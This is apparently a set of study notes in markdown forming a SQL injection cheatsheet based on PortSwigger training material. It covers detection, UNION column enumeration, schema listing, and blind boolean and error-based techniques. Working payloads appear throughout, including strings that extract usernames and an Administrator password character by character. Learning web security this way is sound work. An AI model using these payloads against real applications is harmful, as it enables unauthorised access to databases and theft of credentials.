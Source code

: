 # SQLi injection

<details>

<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>

\


* https://tib3rius.com/sqli

\


</details>

<details>

<summary>$\huge{\text{Overview}}$</summary>

\


**How to detect SQL injection vulnerabilities**

* The single quote character `'` and look for errors or other anomalies.
* Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
* Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
* Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
* OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.\


**SQL injection in different parts of the query**

* Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
* However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT \[column, table], ORDER BY)\


**Warning: OR 1=1**

* If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

\


</details>

<details>

<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>

\


* Requirements
  * How many columns are being returned from the original query
  * Which columns returned from the original query are of a suitable data type to hold the results from the injected query

\


</details>

<details>

<summary>$\huge{\text{Determining the number of columns required}}$</summary>

\


* First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  * Example (the injection point is a quoted string within the `WHERE` clause)
  * ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
* Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  * NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.
  * ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
* Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

\


</details>

<details>

<summary>$\huge{\text{Database-specific syntax}}$</summary>

\


* Example:
  * Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  * MySQL: the double-dash sequence must be followed by a space
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

\


</details>

<details>

<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>

\


* Do you want a string?
  * ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  * Error example: Conversion failed when converting the varchar value 'a' to data type int.
  * If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

\


</details>

<details>

<summary>$\huge{\text{Examining the database}}$</summary>

\


* `' UNION SELECT @@version--`
* Listing the contents of the database
* Most database types (except Oracle) have a set of views called the information schema
  * `information_schema.tables`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | TABLE\_TYPE |
      | -------------- | ------------- | ----------- | ----------- |
      | MyDatabase     | dbo           | Products    | BASE TABLE  |
    * `SELECT * FROM information_schema.tables`
  * `information_schema.columns`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | COLUMN\_NAME | DATA\_TYPE |
      | -------------- | ------------- | ----------- | ------------ | ---------- |
      | MyDatabase     | dbo           | Users       | UserId       | int        |
    * `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle:
  * `SELECT * FROM all_tables`
    * `SELECT TABLE_NAME FROM all_tables`
  * `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    * `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

\


</details>

<details>

<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>

\


* You can retrieve multiple values together within this single column by concatenating the values together
* `' UNION SELECT username || '~' || password FROM users--`
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

\


</details>

<details>

<summary>$\huge{\text{Blind SQL Injection}}$</summary>

\


* Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

\


</details>

<details>

<summary>$\huge{\text{Triggering conditional responses}}$</summary>

\


* `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  * …xyz' AND '1'='1
    * The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
  * …xyz' AND '1'='2
    * The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
* Extract data one piece at a time
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    * This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    * This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    * ... Confirm that the first character of the password is `s`
  * We can continue this process to systematically determine the full password for the Administrator user.
* `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

\


</details>

<details>

<summary>$\huge{\text{Error-based SQL injection}}$</summary>

\


* Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet

\


</details>
